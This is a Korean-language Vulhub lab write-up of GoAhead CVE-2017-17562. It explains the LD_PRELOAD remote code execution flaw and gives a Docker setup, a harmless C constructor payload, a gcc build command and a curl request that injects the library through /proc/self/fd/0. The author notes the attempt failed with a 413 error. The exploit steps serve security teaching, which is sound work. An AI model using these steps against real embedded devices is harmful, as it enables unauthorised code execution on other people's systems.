

# Whitehat School `vulhub` 한글판

# goahead/CVE-2017-17562

**Contributors**
[정예진_yejin0719](https://github.com/yejin0719)

# GoAhead 웹 서버 HTTPd 'LD_PRELOAD' 원격 코드 실행 (CVE-2017-17562)

Embedthis GoAhead는 수억 개의 장치에 배포되고 가장 작은 임베디드 장치에 이상적인 세계에서 가장 인기 있는 작은 임베디드 웹 서버이다.

3.6.5 이전의 GoAhead에서는 CGI가 활성화되고 CGI 프로그램이 동적으로 링크된 경우 원격 코드 실행을 허용한다. 이는 `cgi.c`의 cgiHandler 함수에서 신뢰할 수 없는 HTTP 요청 매개변수를 사용하여 분기된 CGI 스크립트의 환경을 초기화한 결과이다. glibc 동적 링커와 결합하면 `LD_PRELOAD`와 같은 특수 매개변수 이름을 사용하는 원격 코드 실행에 이 동작이 남용될 수 있다. 공격자는 요청 본문에 공유 객체 페이로드를 게시하고 /proc/self/fd/0을 사용하여 이를 참조 가능하다.

참조:
 - https://www.elttam.com.au/blog/goahead/
 - https://www.exploit-db.com/exploits/43360
 - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/http/goahead_ldpreload.rb

 # 취약한 환경
GoAhead 3.6.4를 시작하려면 다음 명령을 실행한다.

```
docker compose up -d
```
그런 다음 'http://your-ip:8080'에서 환영 페이지를 볼 수 있고, CGI 스크립트는 'http://your-ip:8080/cgi-bin/index'에서 사용할 수 있다.

# 악용
우선, 이 하이재킹 코드를 동적 공유 라이브러리로 컴파일한다.

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

> GoAhead는 거의 모든 IoT 장치에서 실행되는 소형 임베디드 웹서버이므로 동적 공유 라이브러리의 형식은 항상 대상 서버 아키텍처에 따라 달라진다. 실제 세계에서는 Vulhub가 가장 간단한 예를 보여줄 수 있지만 익스플로잇을 컴파일하는 것은 이 매뉴얼에서 제안하는 것만큼 쉽지 않다.

x86/64 환경에서 컴파일:
```
gcc -shared -fPIC ./payload.c -o payload.so
```

공격을 트리거하려면 curl을 사용:
```
curl -X POST --data-binary @payload.so "http://your-ip:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 
```

응답 헤더 `Hello: world!`가 인쇄되어 코드가 실행되었음을 나타낸다.



HTTP/1.1 413 Request too large 오류가 발생했고, 이를 해결하지 못해 올바른 결과값을 도출해내지 못하였다.